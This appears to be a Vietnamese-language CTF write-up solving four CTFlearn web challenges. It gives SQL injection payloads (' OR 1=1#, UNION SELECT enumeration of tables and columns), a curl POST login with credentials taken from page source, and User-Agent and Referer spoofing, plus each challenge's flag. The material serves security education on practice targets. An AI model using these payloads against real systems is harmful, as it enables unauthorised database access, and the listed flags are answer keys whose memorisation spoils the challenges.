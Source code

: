 <!-- markdownlint-disable MD033 MD041 MD024-->
<p align="center">
<a href="https://ctflearn.com/"><img alt="https://ctflearn.com/" src="images/logo.png" width="90" height="90"></a>
</p>
<!-- markdownlint-enable MD033 -->

# CTFLEARN

## Basic Injection

See if you can leak the whole database using what you know about SQL Injections. [link](https://web.ctflearn.com/web4/)

Don't know where to begin? Check out CTFlearn's [SQL Injection Lab](https://ctflearn.com/lab/sql-injection-part-1)

### Solution

Vào thử thách, chúng ta có một trang web sau:

![image](images/basic-injection/image-1.png)

Có thể thấy đây là một thử thách liên quan tới lỗ hổng SQL Injection. Và chúng ta sẽ lấy flag thành công với một payload cơ bản `' OR 1=1#`:

![image](images/basic-injection/image-2.png)

### Flag

`CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}`

## POST Practice

> This website requires authentication, via POST. However, it seems as if someone has defaced our site. Maybe there is still some way to authenticate?
>
> <http://165.227.106.113/post.php>

### Solution

Truy cập vào URL được cung cấp, chúng ta có trang web sau:

![image](images/post-practice/image-1.png)

Xem HTML source code, chúng ta có thông tin đăng nhập `admin:71urlkufpsdnlkadsf`:

![image](images/post-practice/image-2.png)

Vào `/robots.txt`, chúng ta thấy `/70r3hnanldfspufdsoifnlds.html` được chỉ định:

![image](images/post-practice/image-3.png)

Truy cập vào `/70r3hnanldfspufdsoifnlds.html`, chúng ta thấy flag. Tuy nhiên, đó là fake flag:

![image](images/post-practice/image-4.png)

Vậy để lấy flag, chúng ta sẽ gửi thông tin đăng nhập thông qua POST request sử dụng lệnh `curl`:

```text
$ curl -d "username=admin&password=71urlkufpsdnlkadsf" http://165.227.106.113/post.php 
<h1>flag{p0st_d4t4_4ll_d4y}</h1>
```

### Flag

`flag{p0st_d4t4_4ll_d4y}`

## Don't Bump Your Head(er)

> Try to bypass my security measure on this site! <http://165.227.106.113/header.php>

### Solution

Vào thử thách, trang web bảo chúng ta không thể truy cập vì sai user agent:

![image](images/dont-bump-your-header/image-1.png)

Khi xem HTML source code, chúng ta thấy chuỗi `Sup3rS3cr3tAg3nt` được chỉ định trong comment:

![image](images/dont-bump-your-header/image-2.png)

Sử dụng Burp Repeater để gửi request, chúng ta đổi giá trị của header `User-Agent` thành `Sup3rS3cr3tAg3nt`. Tiếp tục thấy bảo chúng ta không đến từ `awesomesauce.com`:

![image](images/dont-bump-your-header/image-3.png)

Vậy có thể hiểu server yêu cầu chúng ta cung cấp header `Referer` với giá trị `awesomesauce.com`. Thêm header vào và gửi request, chúng ta lụm được flag:

![image](images/dont-bump-your-header/image-4.png)

### Flag

`flag{did_this_m3ss_with_y0ur_h34d}`

## Inj3ction Time

> I stumbled upon this website: <http://web.ctflearn.com/web8/> and I think they have the flag in their somewhere. UNION might be a helpful command

### Solution

Chúng ta lại có một thử thách liên quan tới lỗ hổng SQL Injection:

![image](images/inj3ction-time/image-1.png)

Với payload dưới, chúng ta xác định được câu truy vấn gốc lấy ra 4 cột:

```sql
123 UNION SELECT null,null,null,null#`
```

![image](images/inj3ction-time/image-2.png)

Chúng ta chắc chắn rằng server sử dụng MySQL với payload:

```sql
123 UNION SELECT @@version,null,null,null#
```

![image](images/inj3ction-time/image-3.png)

![image](images/inj3ction-time/image-4.png)

Do đó, chúng ta dùng payload dưới để tìm ra các bảng tồn tại trong database hiện tại:

```sql
123 UNION SELECT table_name,null,null,null FROM information_schema.tables WHERE table_schema=database()#
```

Có 2 bảng là `w0w_y0u_f0und_m3` và `webeight`, chúng ta chú ý tới bảng `w0w_y0u_f0und_m3`:

![image](images/inj3ction-time/image-5.png)

Tiếp theo là cần tìm ra tên cột để có thể lấy dữ liệu, chúng ta sẽ dùng payload:

```sql
123 UNION SELECT column_name,null,null,null FROM information_schema.columns#
```

Chúng ta thấy có cột `f0und_m3`:

![image](images/inj3ction-time/image-6.png)

Đã biết được tên cột, công việc cuối cùng là đọc flag:

```sql
123 UNION SELECT f0und_m3,null,null,null FROM w0w_y0u_f0und_m3#
```

![image](images/inj3ction-time/image-7.png)

### Flag

`abctf{uni0n_1s_4_gr34t_c0mm4nd}`
